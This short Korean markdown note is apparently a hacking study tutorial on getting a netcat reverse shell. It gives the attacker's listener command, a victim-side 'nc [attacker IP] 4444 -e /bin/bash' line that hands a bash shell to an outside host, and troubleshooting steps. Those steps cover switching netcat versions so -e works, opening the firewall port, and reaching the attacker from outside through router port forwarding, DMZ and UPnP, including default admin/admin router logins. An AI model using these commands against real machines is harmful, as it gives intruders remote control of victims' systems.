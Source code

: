 > 공격자가 서버를 열어놓고 누군가 접속하면 쉘을 따는 방식

<br>

공격자 IP는 공인IP를 사용한다.

공인아이피 조회 명령 : `$ curl [ifconfig.me](http://ifconfig.me/)`

<br>

[공격자 PC] nc서버를 열어 들어오는 서비스를 대기한다.

```php
nc -l -p 4444
```

<br>

[피해자 PC] 공격자 서버에 접속한다.

```php
nc [공격자 IP] 4444 -e /bin/bash
```

<br>

### 트러블슈팅

만약 접속해도 쉘이 따지지 않는다면 확인해보아야 할 것들이 있다. 

 (공격자 PC) 해당 포트에 대한 접근 허용

```php
sudo ufw allow 4444/tcp
```

(공격자 PC) nc -e 했을 때 에러가 뜬다면 아래 명령을 쳐서 “2”번으로 세팅 

<br>

```php
sudo update-alternatives --config nc
```

만약 같은 네트워크 안에서 통신하는 거라면 `ifconfig`로 나오는 사설IP를 사용해도 리버스쉘이 성공한다

<br>

그러나 외부 네트워크에 리버스쉘을 시도하려면 추가적인 작업이 필요하다.

<br>

### 포트포워딩

1. 라우터 IP 주소에 접속한다. `192.168.0.1` or `192.168.1.1` (초기 ID/PW는 admin/admin이다)
2. 고급 설정 - NAT,라우터 관리 - 포트포워드 설정 
    
    <img src="https://github.com/user-attachments/assets/88a56c32-9729-4782-b39b-c78115b891a3" width=600>


<br>

<img src="https://github.com/user-attachments/assets/00c70640-6691-4d22-aa19-e7a54f741586" width=600>

Net/라우터 관리 - DMZ를 설정한다

<br>

<img src="https://github.com/user-attachments/assets/801cc181-7533-435a-b091-623172751689" width=600>

UPnP가 활성화 되어있는지 확인한다.

<br>

### 방화벽 설정

<img src="https://github.com/user-attachments/assets/b2742a19-bd61-4ff9-a1c1-563df6b2f4d1" width=600>

방화벽 - 고급설정 - 인바운드 규칙 

